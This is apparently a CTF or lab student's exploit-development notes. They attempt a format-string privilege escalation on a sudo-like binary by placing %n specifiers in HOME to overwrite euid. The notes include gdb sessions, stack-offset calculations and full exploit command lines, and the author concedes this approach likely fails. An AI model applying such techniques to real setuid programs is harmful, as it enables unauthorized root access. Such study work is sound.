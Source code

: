 ```c
// fopen_passwd()
...
snprintf(passwd_path, MAX_PATH_LENGTH, "%.243s/etc/passwd", homedir);
...
```
 - This is the only `printf` that allows an extremely large string that we can control
 - Make it overwrite `euid[1]` to be 0 to skip password authentication
 - Will also need to figure out what to do since `passwd_path` is gonna be big and ugly, maybe just symlink it?
 - These values will probably shift around a bit when we make `HOME` huge
```
(gdb) p &euid[0]
$3 = (uid_t *) 0x7fffffffed20
(gdb) p &euid[1]
$4 = (uid_t *) 0x7fffffffed24

(gdb) p $rsp + 8
$5 = (void *) 0x7fffffffea10

>>> python3
>>> 0x7fffffffed24 - 0x7fffffffea10
788
>>> 788/8
98.5
>>> 0x7fffffffed20 - 0x7fffffffea10
784
>>> 784 / 8 + 6
104.0
```
 - `euid` is the 104th argument to `snprintf`, `euid[1]` is the 104.5th argument to `snprintf`
	 - Can just overwrite the entire thing since it overwrites `euid[0]` afterwards anyway
 - I think this isn't working because it needs to be given a pointer to an address, not just an address to overwrite
```
0x7fffffffed20 = \x20\xed\xff\xff\xff\x7f

>>> gdb --args env -i HOME=$'%104$n' ./pseudoyeeeeet VladimirRootin /bin/bash $'\x20\xed\xff\xff\xff\x7f'
(gdb) p &argv[3]
$1 = (char **) 0x7fffffffee20
(gdb) x/xg argv[3]
0x7fffffffefd5: 0x48007fffffffed20

>>> gdb --args env -i HOME=$'%104$n' ./pseudoyeeeeet VladimirRootin /bin/bash $'\x20\xed\xff\xff\xff\x7f' ''
(gdb) x/xg argv[3]
0x7fffffffefd4: 0x00007fffffffed20
(gdb) p &argv[3]
$1 = (char **) 0x7fffffffee20
... step into snprint
(gdb) p $rsp+8
$2 = (void *) 0x7fffffffe9f0
(gdb) p 0x7fffffffefd4 - 0x7fffffffe9f0
$3 = 1508
(gdb) p 1508 / 8
$4 = 188
(gdb) p 188 + 6
$5 = 194

>>> gdb --args env -i HOME=$'%194$n' ./pseudoyeeeeet VladimirRootin /bin/bash $'\x20\xed\xff\xff\xff\x7f' ''
(gdb) x/xg 0x7fffffffed20
0x7fffffffed20: 0x0000000200000008
// This is close, we messed up because we forgot euid has moved
(gdb) p &euid
$1 = (uid_t (*)[2]) 0x7fffffffed00
// This ends with \x00 which is annoying, move it again

>>> gdb --args env -i HOME=$'./%194$n' ./pseudoyeeeeet VladimirRootin /bin/bash $'\xf0\xec\xff\xff\xff\x7f' '' ''
(gdb) p &euid
$3 = (uid_t (*)[2]) 0x7fffffffecf0
(gdb) x/xg 0x7fffffffefd1
0x7fffffffefd1: 0x00007fffffffecf0
(gdb) p &argv[3]
$2 = (char **) 0x7fffffffee10
// Step into snprintf
(gdb) p $rsp + 8
$1 = (void *) 0x7fffffffe9e0
(gdb) p 0x7fffffffefd1 - 0x7fffffffe9e0
$2 = 1521
(gdb) p 1521 / 8
$3 = 190
(gdb) p 190 + 6
$4 = 196

// Address is not aligned properly yet
>>> gdb --args env -i HOME=$'%196$n' ./pseudoyeeeeet VladimirRootin /bin/bash $'\xf0\xec\xff\xff\xff\x7f' '' 'abc'
(gdb) x/xg argv[3]
0x7fffffffefd0: 0x00007fffffffecf0
// Now it is aligned properly
// Step into snprintf
(gdb) p $rsp + 8
$2 = (void *) 0x7fffffffe9e0
(gdb) p 0x7fffffffefd0 - 0x7fffffffe9e0
$3 = 1520
(gdb) p 1520 / 8 + 6
$4 = 196
```
 - I don't think this will actually work because `snprintf(passwd_path, MAX_PATH_LENGTH, "%.243s/etc/passwd", homedir);` converts `homedir` into a string
 - If you `printf` the resulting output it might work
 - Just running `printf(homedir)` on `$'%196$p'` prints off a random address

Figured this out for [[Exploit 3]]
